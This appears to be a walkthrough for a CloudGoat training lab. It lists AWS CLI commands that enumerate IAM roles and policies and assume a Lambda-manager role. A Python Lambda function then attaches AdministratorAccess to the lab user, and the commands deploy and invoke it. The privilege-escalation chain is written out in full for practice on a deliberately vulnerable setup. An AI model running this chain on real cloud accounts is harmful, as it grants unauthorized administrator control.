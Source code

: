 `aws configure --profile Chris`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris`

`aws iam list-roles --profile Chris`

`aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris`

`aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris`

`aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:

**Note**: The name of the file needs to be `lambda_function.py`.

````
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'chris-<cloudgoat_id>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
````

`zip -r lambda_function.py.zip lambda_function.py`

`aws lambda create-function --function-name admin_function --runtime python3.9 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager` --region us-east-1`

`aws lambda invoke --function-name admin_function out.txt --profile lambdaManager --region us-east-1`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`
